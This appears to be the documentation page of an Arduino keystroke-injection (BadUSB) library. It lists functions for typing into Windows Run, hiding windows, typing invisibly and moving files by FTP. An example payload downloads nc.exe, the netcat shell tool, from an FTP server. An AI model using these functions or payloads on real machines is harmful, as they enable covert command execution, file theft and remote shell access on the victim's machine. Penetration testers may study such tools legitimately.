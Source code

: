 
Keyboard Function List
----
<b>pressAndRelease</b> = Press a key or combination of keyboard and release. usage : pressAndRelease(key_ALT, key_TAB)</br>
<b>press</b> = Press a key or combination of keyboard without release. usage : press(key_ALT, key_TAB)</br>
<b>release</b> = release a key or combination of keyboard. usage : release()</br>
<b>echo</b> = write a text without enter/newline/return. usage : echo("text")</br>
<b>echoEnter</b> = write the text and enter/newline/return. usage : echoEnter("text")</br>
<b>sleep</b> = delay or sleep for "n" milisecond. usage : sleep(5)</br>
<b>winRun</b> = open Windows Run and type a Windows command. usage : winRun("command")</br>
<b>hideWindow</b> = hide an active window not minimize. usage : hideWindow()</br>
<b>writeOnBackground</b> = make the window is not visible, and keep writing. usage : writeOnBackground("text")</br>
<b>minimizeWindow</b> = minimize an active window. usage : minimizeWindow()</br>
<b>winFTP</b> = download a file from FTP server or upload file to FTP server. usage : winFTP("put/get/mput/mget","FTPusername","FTPpassword","FTPhost","FTPport","filename")</br>
<b>done</b> = Turn the LED off when payload is loaded. usage : done()</br>


Example Payload
----
```c
#include <NinjaKeyboard.h>

EthicNinjaKeyboard en;

void setup()
{
  //Inisialisasi program
  en.init(1500);
  //Download single file
  en.winFTP("get","user_ftp","pass_ftp","host_ftp", "port_ftp","nc.exe");
}

void loop() {
  
}


